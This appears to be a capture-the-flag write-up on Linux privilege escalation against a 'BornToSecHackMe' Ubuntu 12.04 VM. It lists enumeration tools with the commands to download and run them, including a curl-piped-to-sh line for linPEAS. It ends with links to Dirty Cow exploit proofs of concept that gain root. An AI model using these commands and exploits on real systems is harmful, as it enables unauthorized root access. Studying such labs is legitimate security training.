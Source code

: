 # Some notes

## Identification

```shell
cat /etc/*-release
  DISTRIB_ID=Ubuntu
  DISTRIB_RELEASE=12.04
  DISTRIB_CODENAME=precise
  DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
  NAME="Ubuntu"
  VERSION="12.04.5 LTS, Precise Pangolin"
  ID=ubuntu
  ID_LIKE=debian
  PRETTY_NAME="Ubuntu precise (12.04.5 LTS)"
  VERSION_ID="12.04"

uname -a
  Linux BornToSecHackMe 3.2.0-91-generic-pae \#129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

---

## LinEnum.sh

LinEnum — is a bash-script that can do all the nasty job for you making all the adjustments described here cheat sheet’e. By and large, it has about 65 different checking operations, ranging from getting an information about the kernel version to searching potentially interesting SUID/GUID files. Besides, you can send a lock world to script that it would search in the all configurations and log-files. You can launch the checking like this: ./LinEnum.sh -k keyword -r report -e /tmp/ -t. After the scanning is complete you will get a detail report where the most interesting points will be highlighted with the yellow colour.

[https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh > /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh

/tmp/LinEnum.sh -k keyword -r report -e /tmp/
```

[Report here](logs/LinEnum-export-10-12-20.html)

---

## linPEAS.sh

LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\* hosts. The checks are explained on book.hacktricks.xyz

Check the Local Linux Privilege Escalation checklist from [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation)

[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

```shell
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh > linPEAS.log
```

[Report here](logs/linPEAS.html)

---

## LES: Linux privilege escalation auditing tool

LES tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It provides following functionality:

- Assessing kernel exposure on publicly known exploits
- Verifying state of kernel hardening security measures

[https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

```shell
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
bash les.sh > les.log
```

[Report here](logs/les.html)

---

## Linux Exploit Suggester 2

This script is extremely useful for quickly finding privilege escalation vulnerabilities both in on-site and exam environments.

[https://github.com/jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

```shell
curl https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl > linux-exploit-suggester-2.pl
perl linux-exploit-suggester-2.pl
```

## [Report here](logs/linux-exploit-suggester-2.html)

## Dirty Cow - PoCs

[https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)

### List of PoCs

- https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c ❌
  - Allows user to write on files meant to be read only.
- https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679 ❌
  - Gives the user root by overwriting /usr/bin/passwd or a suid binary.
- https://gist.github.com/scumjr/17d91f20f73157c722ba2aea702985d2 ❌
  - Gives the user root by patching libc's getuid call and invoking su.
- https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c ✅
  - Allows user to write on files meant to be read only.
- https://github.com/xlucas/dirtycow.cr
  - Allows a user to write on files meant to be read only.
- https://github.com/timwr/CVE-2016-5195
  - Allows user to write on files meant to be read only (android).
- https://github.com/rapid7/metasploit-framework/pull/7476
  - Metasploit module based on the cowroot PoC.
- https://github.com/scumjr/dirtycow-vdso
  - Gives the user root by patching the vDSO escapes containers/SELinux doesn't need suid.
- https://gist.github.com/mak/c36136ccdbebf5ecfefd80c0f2ed6747 ❌
  - Gives the user root by injecting shellcode into a SUID file.
- https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54 ✅
  - Gives the user root by injecting shellcode into a SUID file using PTRACE_POKEDATA .
- https://gist.github.com/ngaro/05e084ca638340723b309cd304be77b2
  - Gives the user root by replacing /etc/passwd
- https://gist.github.com/chriscz/f1aca56cf15cfb7793db0141c15718cd
  - Allows user to write on files meant to be read only. Supports writing to multiple pages, not just the first
- https://github.com/nowsecure/dirtycow
  - Allows the user to write on files meant to be read only, implemented as a radare2 IO plugin.
- https://github.com/sivizius/dirtycow.fasm
  - Gives the user root by injecting shellcode into a SUID file. implemented for amd64 in flatassembly.
- https://github.com/gbonacini/CVE-2016-5195
  -Gives the user root by replacing /etc/passwd
- https://github.com/mengzhuo/dirty-cow-golang/blob/master/dirtyc0w.go
  - Allows user to write on files meant to be read only. implemented for arm32/x86/amd64 in Golang faster than c implement.
- https://github.com/FireFart/dirtycow/blob/master/dirty.c
  - Generates a new password hash on the fly and modifies /etc/passwd automatically. Just run and pwn.
